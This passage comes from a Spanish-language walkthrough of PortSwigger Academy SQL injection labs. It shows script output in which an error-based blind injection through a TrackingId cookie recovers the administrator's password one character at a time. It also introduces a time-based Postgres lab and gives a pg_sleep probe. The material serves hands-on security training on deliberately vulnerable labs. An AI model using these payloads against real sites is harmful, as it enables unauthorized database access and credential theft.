 ```bash
❯ python3 error.py
[o] Fuerza Bruta: TrackingId=RYv84rwBNkKgrR6I'||(select case when substr(password,20,1)='u' then to_char(1/0) else '' end from users where username='administrator')||'
[▇] Password: dq661c6kbqr9wemn3khu
```

![](/assets/images/ports-writeup-sqli/web65.png)

## SQL injection with time delays

<https://portswigger.net/web-security/sql-injection/blind/lab-time-delays>

Esta inyección es basada en tiempo y la base de datos es de **Postgress** asi que nos vamos a capturar la petición con burpsuite otra vez

El campo inyectable también es el mismo campo pero bueno esta es una inyección basada en tiempo para ver si esto es vulnerable a la de tiempo podemos hacer un `pg_sleep(10)-- -` y si la web tarda 10 segundos en responder es por que es vulnerable

lo único que tienes que hacer para resolver el laboratorio lo único que tienes que hacer es esto 

![](/assets/images/ports-writeup-sqli/web66.png)
